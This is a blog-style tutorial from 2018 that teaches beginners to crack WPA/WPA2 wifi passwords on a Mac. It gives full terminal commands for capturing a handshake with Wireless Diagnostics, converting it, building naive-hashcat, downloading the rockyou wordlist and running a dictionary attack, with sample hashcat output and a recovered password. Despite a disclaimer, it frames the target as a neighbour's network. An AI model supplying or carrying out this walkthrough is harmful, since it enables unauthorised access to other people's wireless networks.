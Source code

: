 ```yaml
---
title: Crack Wifi Passwords the Easy Way! (OSX Version)
---
```


# {% $markdoc.frontmatter.title %}

**14th June 2018**

> DISCLAIMER: This article is for educational purposes only. This article should not be used for illegal activity. The author is not responsible for its use.

You are 18 and bored at your grandma's place, there is no source of entertainment, but you find out there is a sweet wifi spot at your neighbours. You have gone through a lot of wifi cracking articles/videos but the more you try, the more frustrated you get to have it working correctly. I feel ya! Here's where this article comes in handy.

Even though majority classify cracking wifi passwords for the professional's, but this article is also targeted towards beginners who have very little knowledge on computers. So, feel free to give it a shot!

## Prerequisites

- You need to be familiar with the command line. Or at least, how to paste the commands on the terminal ;)
- You are using a Mac (or running OSX)

## My Setup

I am using a MacBook Pro (13-inch, 2017) running macOS High Sierra version 10.13.5. You can find yours by selecting the `Apple` icon on the menu bar (top left of your screen) and select `About This Mac`.

## Preparing your work directory

Lets create a folder on Desktop where we want to place all our work files in. You can change to your desired directory if needed.

Open the terminal (`Command` + `Space` and type `Terminal`). Once open, run the following commands

```bash
# Make your work directory
$ cd ~/Desktop
$ mkdir my-wifi-cracking-work
$ cd my-wifi-cracking-work
```
The `my-wifi-cracking-work` folder is now visible on your desktop screen.

## Lets Get Started!

Here's how we plan to accomplish it:
- We first identifying the target network to crack
- Attempt to capture a 4 way handshake with our target network
- Finally, crack the network password!

### Identifying the the target network

Luckily OSX comes with wireless diagnostic tools that help with scanning/sniffing/etc. To access it, click on the wifi icon on the the menu bar while holding down the option key.

[![picture-1.png](https://svbtleusercontent.com/3yiKyudn4HrFpNqezgtrk90xspap_small.png)](https://svbtleusercontent.com/3yiKyudn4HrFpNqezgtrk90xspap.png)

A dropdown menu will appear. Click on `Open Wireless Diagnostics ...`.

`Wireless Diagnostics` window appears now, but we will not use the one shown. Click on `Window` on the menu bar and select `Scan`.

[![picture-2.png](https://svbtleusercontent.com/f6a1X6XGXhh2sQeCHTyqgb0xspap_small.png)](https://svbtleusercontent.com/f6a1X6XGXhh2sQeCHTyqgb0xspap.png)

Note down the target networks `channel` and `width`.

Here's an example of my target network:

```
Target Network - jahid
Channel - 4
Width - 40 MHz
```

### Capturing 4-way handshake with your target network

With the `Wireless Diagnostics` window open, click on `Window` on the menu bar and select `Sniffer`. Here, select the channel and width found from the previous step and press `Start`. The tool automatically tries to capture a handshake with the desired network, no prompt will be shown though.

Wait for 2-3 mins (we assume that is the typical time for a handshake to occur) and then press `Stop`.

On pressing `Stop`, the `pcap` file will be created on `/var/tmp` folder.

Lets now move this file into our work folder.

```bash
# Lets note down the file that was created
$ ls -l /var/tmp

# Identify the pcap file that was created by checking the date and time of each file. For example, in my case, the file created is (null)_ch04_2018-06-14_17.30.13.pcap
$ cp /var/tmp/(null)_ch04_2018-06-14_17.30.13.pcap ~/Desktop/my-wifi-cracking-work/
```
We need to convert the `.pcap` file to `.hccapx` file by uploading it [here](https://hashcat.net/cap2hccapx/). If the handshake was captured in the file, this start the download of the `.hccapx` file. If not, you will need to try a bit longer than earlier stated to generate this file.

## Cracking the password

[Download](https://github.com/brannondorsey/naive-hashcat/archive/master.zip) `naive-hashcat` and extract into the work directory.

OR

`git clone` it.
```bash
$ git clone https://github.com/brannondorsey/naive-hashcat.git ~/Desktop/my-wifi-cracking-work/
```

Then ...
```bash
$ cd naive-hashcat

# Let the source files build
$ ./build-hashcat-osx.sh

# download the 134MB rockyou dictionary file
$ curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# Copy the .hccapx file downloaded previously cloned folder
$ cp ~/Downloads/<your file>.hccapx ~/Desktop/my-wifi-cracking-work/naive-hashcat/

# Start cracking ..
$ HASH_FILE=<your file>.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```
The cracking will take sometime depending on your hardware. To check your progress, you can press `s` where it would display an output similar to this:

```
Session..........: hashcat
Status...........: Running
Hash.Type........: WPA/WPA2
Hash.Target......: jahid (AP:00:b0:c6:63:63:11 STA:34:8a:7b:8b:96:d0)
Time.Started.....: Fri Jun 15 23:34:49 2018 (3 secs)
Time.Estimated...: Fri Jun 15 23:54:29 2018 (19 mins, 37 secs)
Guess.Base.......: File (dicts/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#2.....:    12058 H/s (7.43ms) @ Accel:8 Loops:4 Thr:256 Vec:1
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 145930/14344384 (1.02%)
Rejected.........: 145930/145930 (100.00%)
Restore.Point....: 0/14344384 (0.00%)
Candidates.#2....: 123456789 -> getpaid1
```

Once done, the results will be storied in `cracked.pot` file. It will be in a format will be network name and password seperated by `:`
```
e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:jahid:veryhardpassword123
```
In this case the password is `veryhardpassword123`.

## Attribution
> This article was inspired by the work of [@brannondorsey](https://github.com/brannondorsey) and [Lewis Encarnacion's awesome tutorial](https://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html). [Source](https://github.com/brannondorsey/wifi-cracking).